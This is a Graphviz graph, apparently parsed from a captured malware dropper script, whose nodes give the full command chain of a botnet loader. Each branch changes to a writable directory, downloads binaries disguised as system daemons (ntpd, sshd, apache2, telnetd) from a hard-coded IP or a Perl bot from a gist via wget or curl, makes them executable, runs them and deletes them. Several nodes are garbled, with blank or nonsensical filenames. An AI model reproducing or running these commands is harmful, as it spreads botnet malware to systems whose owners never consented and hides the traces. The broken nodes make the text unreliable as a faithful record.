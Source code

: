 digraph {
486 [label="cd /tmp "];
486 -> 486
488 [label="cd /var/run "];
488 -> 490 [label="||,"];
490 [label="cd /mnt "];
490 -> 492 [label="||,"];
492 [label="cd /root "];
492 -> 494 [label="||,"];
494 [label="cd / "];
494 -> 10 [label="||,"];
10 [label="wget http://169.57.17.91/ntpd "];
10 -> 264 [label=";,"];
264 [label="chmod +x ntpd "];
264 -> 266 [label=";,"];
266 [label="./ntpd "];
266 -> 268 [label=";,"];
268 [label="rm -rf ntpd "];
268 -> 486 [label=";,"];
486 [label="cd /tmp "];
486 -> 486
488 [label="cd /var/run "];
488 -> 490 [label="||,"];
490 [label="cd /mnt "];
490 -> 492 [label="||,"];
492 [label="cd /root "];
492 -> 494 [label="||,"];
494 [label="cd / "];
494 -> 28 [label="||,"];
28 [label="wget http://169.57.17.91/sshd "];
28 -> 282 [label=";,"];
282 [label="chmod +x sshd "];
282 -> 284 [label=";,"];
284 [label="./sshd "];
284 -> 286 [label=";,"];
286 [label="rm -rf sshd "];
286 -> 486 [label=";,"];
486 [label="cd /tmp "];
486 -> 486
488 [label="cd /var/run "];
488 -> 490 [label="||,"];
490 [label="cd /mnt "];
490 -> 492 [label="||,"];
492 [label="cd /root "];
492 -> 494 [label="||,"];
494 [label="cd / "];
494 -> 46 [label="||,"];
46 [label="wget http://169.57.17.91/openssh "];
46 -> 300 [label=";,"];
300 [label="chmod +x openssh "];
300 -> 302 [label=";,"];
302 [label="./openssh "];
302 -> 304 [label=";,"];
304 [label="rm -rf openssh "];
304 -> 486 [label=";,"];
486 [label="cd /tmp "];
486 -> 486
488 [label="cd /var/run "];
488 -> 490 [label="||,"];
490 [label="cd /mnt "];
490 -> 492 [label="||,"];
492 [label="cd /root "];
492 -> 494 [label="||,"];
494 [label="cd / "];
494 -> 64 [label="||,"];
64 [label="wget https://gist.githubusercontent.com/PajeBR/3a210b3840858c0e93e29a82bc8780fc/raw/f9cf87893d3e265b41bf1a76f7b06a0e165dd76e/bot.pl "];
64 -> 318 [label=";,"];
318 [label="chmod +x bot.pl "];
318 -> 320 [label=";,"];
320 [label="perl bot.pl "];
320 -> 322 [label=";,"];
322 [label="rm -rf bot.pl "];
322 -> 486 [label=";,"];
486 [label="cd /tmp "];
486 -> 486
488 [label="cd /var/run "];
488 -> 490 [label="||,"];
490 [label="cd /mnt "];
490 -> 492 [label="||,"];
492 [label="cd /root "];
492 -> 494 [label="||,"];
494 [label="cd / "];
494 -> 82 [label="||,"];
82 [label="wget http://169.57.17.91/bash "];
82 -> 336 [label=";,"];
336 [label="chmod +x bash "];
336 -> 338 [label=";,"];
338 [label="./bash "];
338 -> 340 [label=";,"];
340 [label="rm -rf bash "];
340 -> 486 [label=";,"];
486 [label="cd /tmp "];
486 -> 486
488 [label="cd /var/run "];
488 -> 490 [label="||,"];
490 [label="cd /mnt "];
490 -> 492 [label="||,"];
492 [label="cd /root "];
492 -> 494 [label="||,"];
494 [label="cd / "];
494 -> 100 [label="||,"];
100 [label="wget http://169.57.17.91/tftp "];
100 -> 354 [label=";,"];
354 [label="chmod +x tftp "];
354 -> 356 [label=";,"];
356 [label="./tftp "];
356 -> 358 [label=";,"];
358 [label="rm -rf tftp "];
358 -> 486 [label=";,"];
486 [label="cd /tmp "];
486 -> 486
488 [label="cd /var/run "];
488 -> 490 [label="||,"];
490 [label="cd /mnt "];
490 -> 492 [label="||,"];
492 [label="cd /root "];
492 -> 494 [label="||,"];
494 [label="cd / "];
494 -> 118 [label="||,"];
118 [label="wget http://169.57.17.91/wget "];
118 -> 120 [label=";,"];
120 [label="chmod +x wget "];
120 -> 122 [label=";,"];
122 [label="./wget "];
122 -> 124 [label=";,"];
124 [label="rm -rf wget "];
124 -> 486 [label=";,"];
486 [label="cd /tmp "];
486 -> 486
488 [label="cd /var/run "];
488 -> 490 [label="||,"];
490 [label="cd /mnt "];
490 -> 492 [label="||,"];
492 [label="cd /root "];
492 -> 494 [label="||,"];
494 [label="cd / "];
494 -> 136 [label="||,"];
136 [label="wget http://169.57.17.91/cron "];
136 -> 390 [label=";,"];
390 [label="chmod +x cron "];
390 -> 392 [label=";,"];
392 [label="./cron "];
392 -> 394 [label=";,"];
394 [label="rm -rf cron "];
394 -> 486 [label=";,"];
486 [label="cd /tmp "];
486 -> 486
488 [label="cd /var/run "];
488 -> 490 [label="||,"];
490 [label="cd /mnt "];
490 -> 492 [label="||,"];
492 [label="cd /root "];
492 -> 494 [label="||,"];
494 [label="cd / "];
494 -> 154 [label="||,"];
154 [label="wget http://169.57.17.91/ftp "];
154 -> 408 [label=";,"];
408 [label="chmod +x ftp "];
408 -> 410 [label=";,"];
410 [label="./ftp "];
410 -> 412 [label=";,"];
412 [label="rm -rf ftp "];
412 -> 486 [label=";,"];
486 [label="cd /tmp "];
486 -> 486
488 [label="cd /var/run "];
488 -> 490 [label="||,"];
490 [label="cd /mnt "];
490 -> 492 [label="||,"];
492 [label="cd /root "];
492 -> 494 [label="||,"];
494 [label="cd / "];
494 -> 172 [label="||,"];
172 [label="wget http://169.57.17.91/pftp "];
172 -> 426 [label=";,"];
426 [label="chmod +x pftp "];
426 -> 428 [label=";,"];
428 [label="./pftp "];
428 -> 430 [label=";,"];
430 [label="rm -rf pftp "];
430 -> 486 [label=";,"];
486 [label="cd /tmp "];
486 -> 486
488 [label="cd /var/run "];
488 -> 490 [label="||,"];
490 [label="cd /mnt "];
490 -> 492 [label="||,"];
492 [label="cd /root "];
492 -> 494 [label="||,"];
494 [label="cd / "];
494 -> 190 [label="||,"];
190 [label="wget http://169.57.17.91/sh "];
190 -> 444 [label=";,"];
444 [label="chmod +x sh "];
444 -> 446 [label=";,"];
446 [label="./sh "];
446 -> 448 [label=";,"];
448 [label="rm -rf sh "];
448 -> 486 [label=";,"];
486 [label="cd /tmp "];
486 -> 486
488 [label="cd /var/run "];
488 -> 490 [label="||,"];
490 [label="cd /mnt "];
490 -> 492 [label="||,"];
492 [label="cd /root "];
492 -> 494 [label="||,"];
494 [label="cd / "];
494 -> 208 [label="||,"];
208 [label="wget http://169.57.17.91/  "];
208 -> 462 [label=";,"];
462 [label="chmod +x   "];
462 -> 464 [label=";,"];
464 [label="./  "];
464 -> 466 [label=";,"];
466 [label="rm -rf   "];
466 -> 486 [label=";,"];
486 [label="cd /tmp "];
486 -> 486
488 [label="cd /var/run "];
488 -> 490 [label="||,"];
490 [label="cd /mnt "];
490 -> 492 [label="||,"];
492 [label="cd /root "];
492 -> 494 [label="||,"];
494 [label="cd / "];
494 -> 226 [label="||,"];
226 [label="wget http://169.57.17.91/apache2 "];
226 -> 480 [label=";,"];
480 [label="chmod +x apache2 "];
480 -> 482 [label=";,"];
482 [label="./apache2 "];
482 -> 484 [label=";,"];
484 [label="rm -rf apache2 "];
484 -> 486 [label=";,"];
486 [label="cd /tmp "];
486 -> 486
488 [label="cd /var/run "];
488 -> 490 [label="||,"];
490 [label="cd /mnt "];
490 -> 492 [label="||,"];
492 [label="cd /root "];
492 -> 494 [label="||,"];
494 [label="cd / "];
494 -> 244 [label="||,"];
244 [label="wget http://169.57.17.91/telnetd "];
244 -> 498 [label=";,"];
498 [label="chmod +x telnetd "];
498 -> 500 [label=";,"];
500 [label="./telnetd "];
500 -> 501 [label=";,"];
501 [label="rm -rf telnetd "];
501 -> 486 [label=";,"];
486 [label="cd /tmp "];
486 -> 486
488 [label="cd /var/run "];
488 -> 490 [label="||,"];
490 [label="cd /mnt "];
490 -> 492 [label="||,"];
492 [label="cd /root "];
492 -> 494 [label="||,"];
494 [label="cd / "];
494 -> 262 [label="||,"];
262 [label="curl -O http://169.57.17.91/ntpd "];
262 -> 264 [label=";,"];
264 [label="chmod +x ntpd "];
264 -> 266 [label=";,"];
266 [label="./ntpd "];
266 -> 268 [label=";,"];
268 [label="rm -rf ntpd "];
268 -> 486 [label=";,"];
486 [label="cd /tmp "];
486 -> 486
488 [label="cd /var/run "];
488 -> 490 [label="||,"];
490 [label="cd /mnt "];
490 -> 492 [label="||,"];
492 [label="cd /root "];
492 -> 494 [label="||,"];
494 [label="cd / "];
494 -> 280 [label="||,"];
280 [label="curl -O http://169.57.17.91/sshd "];
280 -> 282 [label=";,"];
282 [label="chmod +x sshd "];
282 -> 284 [label=";,"];
284 [label="./sshd "];
284 -> 286 [label=";,"];
286 [label="rm -rf sshd "];
286 -> 486 [label=";,"];
486 [label="cd /tmp "];
486 -> 486
488 [label="cd /var/run "];
488 -> 490 [label="||,"];
490 [label="cd /mnt "];
490 -> 492 [label="||,"];
492 [label="cd /root "];
492 -> 494 [label="||,"];
494 [label="cd / "];
494 -> 298 [label="||,"];
298 [label="curl -O http://169.57.17.91/openssh "];
298 -> 300 [label=";,"];
300 [label="chmod +x openssh "];
300 -> 302 [label=";,"];
302 [label="./openssh "];
302 -> 304 [label=";,"];
304 [label="rm -rf openssh "];
304 -> 486 [label=";,"];
486 [label="cd /tmp "];
486 -> 486
488 [label="cd /var/run "];
488 -> 490 [label="||,"];
490 [label="cd /mnt "];
490 -> 492 [label="||,"];
492 [label="cd /root "];
492 -> 494 [label="||,"];
494 [label="cd / "];
494 -> 316 [label="||,"];
316 [label="curl -O https://gist.githubusercontent.com/PajeBR/3a210b3840858c0e93e29a82bc8780fc/raw/f9cf87893d3e265b41bf1a76f7b06a0e165dd76e/bot.pl "];
316 -> 318 [label=";,"];
318 [label="chmod +x bot.pl "];
318 -> 320 [label=";,"];
320 [label="perl bot.pl "];
320 -> 322 [label=";,"];
322 [label="rm -rf bot.pl "];
322 -> 486 [label=";,"];
486 [label="cd /tmp "];
486 -> 486
488 [label="cd /var/run "];
488 -> 490 [label="||,"];
490 [label="cd /mnt "];
490 -> 492 [label="||,"];
492 [label="cd /root "];
492 -> 494 [label="||,"];
494 [label="cd / "];
494 -> 334 [label="||,"];
334 [label="curl -O http://169.57.17.91/bash "];
334 -> 336 [label=";,"];
336 [label="chmod +x bash "];
336 -> 338 [label=";,"];
338 [label="./bash "];
338 -> 340 [label=";,"];
340 [label="rm -rf bash "];
340 -> 486 [label=";,"];
486 [label="cd /tmp "];
486 -> 486
488 [label="cd /var/run "];
488 -> 490 [label="||,"];
490 [label="cd /mnt "];
490 -> 492 [label="||,"];
492 [label="cd /root "];
492 -> 494 [label="||,"];
494 [label="cd / "];
494 -> 352 [label="||,"];
352 [label="curl -O http://169.57.17.91/tftp "];
352 -> 354 [label=";,"];
354 [label="chmod +x tftp "];
354 -> 356 [label=";,"];
356 [label="./tftp "];
356 -> 358 [label=";,"];
358 [label="rm -rf tftp "];
358 -> 486 [label=";,"];
486 [label="cd /tmp "];
486 -> 486
488 [label="cd /var/run "];
488 -> 490 [label="||,"];
490 [label="cd /mnt "];
490 -> 492 [label="||,"];
492 [label="cd /root "];
492 -> 494 [label="||,"];
494 [label="cd / "];
494 -> 370 [label="||,"];
370 [label="curl -O http://169.57.17.91/curl -O "];
370 -> 372 [label=";,"];
372 [label="chmod +x curl -O "];
372 -> 374 [label=";,"];
374 [label="./curl -O "];
374 -> 376 [label=";,"];
376 [label="rm -rf curl -O "];
376 -> 486 [label=";,"];
486 [label="cd /tmp "];
486 -> 486
488 [label="cd /var/run "];
488 -> 490 [label="||,"];
490 [label="cd /mnt "];
490 -> 492 [label="||,"];
492 [label="cd /root "];
492 -> 494 [label="||,"];
494 [label="cd / "];
494 -> 388 [label="||,"];
388 [label="curl -O http://169.57.17.91/cron "];
388 -> 390 [label=";,"];
390 [label="chmod +x cron "];
390 -> 392 [label=";,"];
392 [label="./cron "];
392 -> 394 [label=";,"];
394 [label="rm -rf cron "];
394 -> 486 [label=";,"];
486 [label="cd /tmp "];
486 -> 486
488 [label="cd /var/run "];
488 -> 490 [label="||,"];
490 [label="cd /mnt "];
490 -> 492 [label="||,"];
492 [label="cd /root "];
492 -> 494 [label="||,"];
494 [label="cd / "];
494 -> 406 [label="||,"];
406 [label="curl -O http://169.57.17.91/ftp "];
406 -> 408 [label=";,"];
408 [label="chmod +x ftp "];
408 -> 410 [label=";,"];
410 [label="./ftp "];
410 -> 412 [label=";,"];
412 [label="rm -rf ftp "];
412 -> 486 [label=";,"];
486 [label="cd /tmp "];
486 -> 486
488 [label="cd /var/run "];
488 -> 490 [label="||,"];
490 [label="cd /mnt "];
490 -> 492 [label="||,"];
492 [label="cd /root "];
492 -> 494 [label="||,"];
494 [label="cd / "];
494 -> 424 [label="||,"];
424 [label="curl -O http://169.57.17.91/pftp "];
424 -> 426 [label=";,"];
426 [label="chmod +x pftp "];
426 -> 428 [label=";,"];
428 [label="./pftp "];
428 -> 430 [label=";,"];
430 [label="rm -rf pftp "];
430 -> 486 [label=";,"];
486 [label="cd /tmp "];
486 -> 486
488 [label="cd /var/run "];
488 -> 490 [label="||,"];
490 [label="cd /mnt "];
490 -> 492 [label="||,"];
492 [label="cd /root "];
492 -> 494 [label="||,"];
494 [label="cd / "];
494 -> 442 [label="||,"];
442 [label="curl -O http://169.57.17.91/sh "];
442 -> 444 [label=";,"];
444 [label="chmod +x sh "];
444 -> 446 [label=";,"];
446 [label="./sh "];
446 -> 448 [label=";,"];
448 [label="rm -rf sh "];
448 -> 486 [label=";,"];
486 [label="cd /tmp "];
486 -> 486
488 [label="cd /var/run "];
488 -> 490 [label="||,"];
490 [label="cd /mnt "];
490 -> 492 [label="||,"];
492 [label="cd /root "];
492 -> 494 [label="||,"];
494 [label="cd / "];
494 -> 460 [label="||,"];
460 [label="curl -O http://169.57.17.91/  "];
460 -> 462 [label=";,"];
462 [label="chmod +x   "];
462 -> 464 [label=";,"];
464 [label="./  "];
464 -> 466 [label=";,"];
466 [label="rm -rf   "];
466 -> 486 [label=";,"];
486 [label="cd /tmp "];
486 -> 486
488 [label="cd /var/run "];
488 -> 490 [label="||,"];
490 [label="cd /mnt "];
490 -> 492 [label="||,"];
492 [label="cd /root "];
492 -> 494 [label="||,"];
494 [label="cd / "];
494 -> 478 [label="||,"];
478 [label="curl -O http://169.57.17.91/apache2 "];
478 -> 480 [label=";,"];
480 [label="chmod +x apache2 "];
480 -> 482 [label=";,"];
482 [label="./apache2 "];
482 -> 484 [label=";,"];
484 [label="rm -rf apache2 "];
484 -> 486 [label=";,"];
486 [label="cd /tmp "];
486 -> 486
488 [label="cd /var/run "];
488 -> 490 [label="||,"];
490 [label="cd /mnt "];
490 -> 492 [label="||,"];
492 [label="cd /root "];
492 -> 494 [label="||,"];
494 [label="cd / "];
494 -> 496 [label="||,"];
496 [label="curl -O http://169.57.17.91/telnetd "];
496 -> 498 [label=";,"];
498 [label="chmod +x telnetd "];
498 -> 500 [label=";,"];
500 [label="./telnetd "];
500 -> 501 [label=";,"];
}
